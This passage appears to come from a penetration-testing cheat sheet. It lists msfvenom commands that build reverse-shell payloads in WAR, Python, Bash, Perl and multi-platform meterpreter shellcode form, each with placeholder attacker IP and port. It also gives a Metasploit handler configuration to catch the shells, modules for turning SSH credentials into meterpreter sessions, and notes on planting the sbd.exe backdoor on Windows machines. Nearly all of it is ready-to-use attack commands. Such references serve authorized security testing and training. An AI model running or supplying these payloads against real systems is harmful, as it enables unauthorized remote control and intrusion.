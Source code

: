       - `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war`

  **Scripting Payloads**

    - *Python*
  `msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py`
    - *Bash*
      - `msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh`
    - *Perl*
      - `msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl`

  **Shellcode**

  For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

    - *Linux Based Shellcode*
      - `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`
    - *Windows Based Shellcode*
      - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`
    - *Mac Based Shellcode*
      - `msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`

  **Handlers**
  Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

    ```
    use exploit/multi/handler
    set PAYLOAD <Payload name>
    set LHOST <LHOST value>
    set LPORT <LPORT value>
    set ExitOnSession false
    exploit -j -z
    ```

  - Once the required values are completed the following command will execute your handler – `msfconsole -L -r `

- SSH to Meterpreter: <https://daemonchild.com/2015/08/10/got-ssh-creds-want-meterpreter-try-this/>

    ```
    use auxiliary/scanner/ssh/ssh_login
    use post/multi/manage/shell_to_meterpreter
    ```

- SBD.exe

     sbd is a Netcat-clone, designed to be portable and offer strong encryption. It runs on Unix-like operating systems and on Microsoft Win32. sbd features AES-CBC-128 + HMAC-SHA1 encryption (by Christophe Devine), program execution (-e option), choosing source port, continuous reconnection with delay, and some other nice features. sbd supports TCP/IP communication only.
     sbd.exe (part of the Kali linux distribution: /usr/share/windows-binaries/backdoors/sbd.exe) can be uploaded to a windows box as a Netcat alternative.
